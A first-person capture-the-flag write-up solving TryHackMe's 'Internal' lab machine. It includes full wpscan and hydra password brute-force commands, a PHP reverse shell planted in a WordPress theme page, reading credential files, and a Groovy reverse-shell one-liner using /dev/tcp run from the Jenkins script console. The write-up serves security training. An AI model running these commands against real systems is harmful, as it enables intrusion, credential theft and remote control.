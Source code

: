 Let's solve the machine: **Internal** available on [TryHackMe](https://tryhackme.com).  

## Introduction
First of all this is my first writeup after solving a machine. I solved a few of TryHackMe machines before, but these were all a lot more guided and easier and without any rabbit holes (or at least I did not find them).

I hope it helps you to solve this machine like it helped me to read Writeups.
Before working with the machine, add an entry to your `/etc/hosts` mapping the IP (in my case `10.10.190.47`) to `internal.thm`.

## Recon
I started throwing nmap on the target. With a complete scan with `nmap -A internal.thm` I saw two open ports, 22 and 80.

```
Nmap scan report for internal.thm (10.10.190.47)
Host is up (0.00062s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:9B:4D:A7:14:0D (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

With the `nmap internal.thm --script vuln` command I tried to find some general known vulnerabilities in the services, but without success.

## Enumeration
Then I used gobuster to look for some known directories:
`gobuster dir -u 10.10.190.47 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt`

I found three potentially interesting directories:
```
/blog (Status: 301)
/wordpress (Status: 301)
/phpmyadmin (Status: 301)
```

I decided to try out finding some information about wordpress first. You may also notice that blog and wordpress are pointing to the same application.
Opening the page on `internal.thm/blog` I saw the default installation of WordPress.

### WordPress Enumeration
Knowing that a default WordPress login is accessible via `/blog/wp-admin.php`, I navigated to that page and tested out some credentials.

Wild guessing the user might be `admin`, WordPress told me the password for that user was wrong. 
On the other hand: If I used another, non-existing user, WordPress told me `Uknown username`. 
So now I know `admin` is an existing user, nice!

Let's use another tool from our toolchain: **wpscan**. WPScan has a lot of useful parameters. Using the following command, we can find the password for the admin:
`wpscan --url http://internal.thm/wordpress --usernames 'admin' --passwords /usr/share/wordlists/rockyou.txt`

After a few seconds I found the password for the admin user and few further details.

## Accessing the System and gaining shell access
After logging in I decided to not install a reverse shell plugin, but to include a PHP reverse shell from pentestmonkey into the `404.php` page.

On my system I waited for a connection via `nc -nlvp 1234`.

After opening a random page on the blog, the session opened and I could get shell access.

Looking into `/home`-dir, I found an user `aubreanna`. I could access the user's home dir.

But we know from before that there is also a `phpmyadmin`-instance which is by default placed under `/etc/phpmyadmin`. Via catting the `config-db.php`, I could find the default password for the phpmyadmin-user.

After searching some time for further infos I got a bit stuck. No infos could be found here, no user information etc.

Before looking for further infos, I found an article on WordPress called _Private_. Credentials for the user william were there.
I hoped it was some more-privileged user for SSH but via `cat /etc/passwd` I could verify there is no user with the username `william`. 

Without finding further information, I checked `/opt`-directory since I usually put my apps here and found an maybe interesting file: `wp-save.txt`.

And luckily I found some credentials for aubreanna! :)

![](https://i.imgur.com/Ijbnsya.png)


After using these credentials I was able to find the `user.txt` in the *aubreanna's* home directory and found a flag here. :)

## Privilege Escalation
Next hint in aubreanna's directory was the `jenkins.txt`.
But actually I could see that this Jenkins instance is on another network. I used an SSH tunnel to access this network via the `internal.thm`:

```bash
ssh -L 8888:172.17.0.2:8080 -l aubreanna internal.thm
```
`localhost:8888` showed me the Jenkins login page. I tried to use the credentials exposed on WordPress, but that did not work. 
Maybe I could find something with hydra.

![](https://i.imgur.com/N3SodUC.png)

But which user should I take? After having a short research on that, I found out there might be an `admin` user by default.
With Hydra and a little help of my network console, I saw three things I need for cracking the password:

```
File: /j_acegi_security_check
Request Body: j_username=admin&j_password=admin&from=%2F&Submit=Sign+in
```
Addtionally I know the error when login does not succeed: _Invalid username or password_
So I could construct the hydra-command and replace user and pw with placeholders:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 8888 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```

Using this command we found the password for our admin user.

From [this](https://alionder.net/jenkins-script-console-code-exec-reverse-shell-java-deserialization/) site, we can now gain the information of how we can create a reverse shell from Jenkins Script Console (which can be found in Jenkins->Node->master->Script Console):
```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.7.212/4321;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

After listening for this via `nc -nlvp 4321`, we are again on another machine.
Guessing to see again some useful info in `/opt`, I check the directory and - quel surprise - we can find a `note.txt`.

![](https://i.imgur.com/pURMR8X.png)

As we can see, we find some relevant info here. ;) 
Let's login to `internal.thm `as root and capture our root-flag.
